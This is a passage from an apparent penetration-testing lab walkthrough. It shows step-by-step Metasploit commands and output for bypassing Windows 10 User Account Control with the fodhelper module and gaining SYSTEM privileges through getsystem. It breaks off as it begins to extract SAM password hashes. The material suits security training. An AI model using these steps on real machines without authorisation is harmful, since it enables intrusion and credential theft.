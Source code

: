The command fails to escalate privileges and returns an error **(Access is Denied).**

From the above result, it is evident that the security configuration of the Windows 10 machine is blocking you from gaining unrestricted access to it.

## Perform Privilege Escalation

We can try to bypass the user account control setting that is blocking you from gaining unrestricted access to machine.

Move the current Meterpreter session to the background. Just type `background`.

Use the **bypassuac_fodhelper** exploit for Windows:<br>
`use exploit/windows/local/bypassuac_fodhelper`

Type `options` to see the configurations, and you will observer theres only session setting, type `sessions` to see the ID of the previous meterpreter session and set to the current exploit:

`set SESSION <ID>`

Type `run` to exploit:

![run-bypassuac_fodhelper](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/fd2d00d7a9d552981f6422e0ab4dd04a6fe6d9b5/bypassuac_fodhelper.png)

**The BypassUAC exploit has successfully bypassed the UAC setting on the Windows 10 machine and another Meterpreter session has opened.**

Now, the first thing is check the current User ID status of Meterpreter by issuing `getuid` command. You will observe that Meterpreter server is still running with **normal user privileges**.

`getuid`
```
meterpreter > getuid
Server username: DESKTOP-ICB2IQ4\dummy  
```

At this stage, we shall re-issue the `getsystem` command with the `-t 1` switch, in an attempt to **elevate the privileges**.

`getsystem -i 1`

```
meterpreter > getsystem -i 1

...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

**This time, the command has successfully escalated user privileges and returns a message stating got system, as shown above.**

Now, type `getuid` again.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

The meterpreter session is now running with **SYSTEM** privileges (**NT AUTHORITY\SYSTEM**).

Let's try to obtain the **hashes** located in the **SAM** file of Windows 10 by typing:
